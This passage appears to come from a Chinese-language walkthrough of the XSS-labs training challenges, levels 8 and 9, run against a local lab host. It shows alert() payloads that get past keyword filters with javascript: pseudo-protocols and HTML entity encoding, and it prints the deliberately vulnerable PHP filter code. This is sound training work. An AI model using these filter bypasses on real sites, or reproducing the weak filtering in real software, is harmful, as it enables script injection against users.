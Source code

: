变成了

```js
<a href="<scr_ipt &quot 'oo_nn>">
```

![image-20240819213647232](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819213647232.png)

#### 友情链接

**单引号**没有被处理，尝试使用伪协议

```js
<a href="javascript:alert(/xss/)">
```

![image-20240819213854623](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819213854623.png)

变成

```js
<a href="javascr_ipt:alert(/xss/)">
```

![image-20240819213806506](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819213806506.png)

也被处理了，尝试使用**16进制编码**

### unicode编码

**s**的unicode编码是 &**#x73;**

```js
java&#x73;cript:alert(/xss/)
```

![image-20240819214006511](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819214006511.png)

### 总结

- `hackbar`无法提交`unicode`，`&`被当成参数了，可以尝试将`&`进行**url编码**，或直接在网页的输入payload了
- `unicode`可以和**ascii码**混合使用；`s`的`unicode`加**ascii编码**是`&#115;`，再进行**16进制**转换是`&#x73;`
- `unicode`有两种，`&#`的是`web`网页上使用的，`\u`是`java`上使用的。

## level9 unicode编码+合法链接

### 访问

http://192.168.70.10:8084/level9.php?keyword=not%20bad!

![image-20240819215142813](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819215142813.png)

### 源码

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level9.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
```